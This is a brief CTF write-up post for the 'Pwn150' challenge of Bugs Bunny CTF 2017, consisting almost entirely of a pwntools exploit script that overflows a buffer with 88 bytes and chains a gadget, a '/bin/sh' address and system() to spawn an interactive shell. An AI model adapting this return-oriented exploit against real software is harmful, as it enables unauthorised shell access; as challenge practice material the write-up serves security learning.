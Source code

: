```yaml
---
layout: post
title: Pwn150
category: Bugs Bunny CTF 2017
---
```



Task : [https://ctftime.org/task/4375](https://ctftime.org/task/4375)

```
#!/usr/bin/env python
#TnMch

from pwn import *

context(arch='i386',os='linux')
local = True

if local: p = process("./pwn150")
else: p = remote("127.0.0.1", 5253)

system = p64(0x40075f)
binsh = p64(0x4003ef)

payload = ""
payload += "A"*88
payload += p64(0x00400883)
payload += binsh
payload += system
p.sendline(payload)
p.interactive()
```
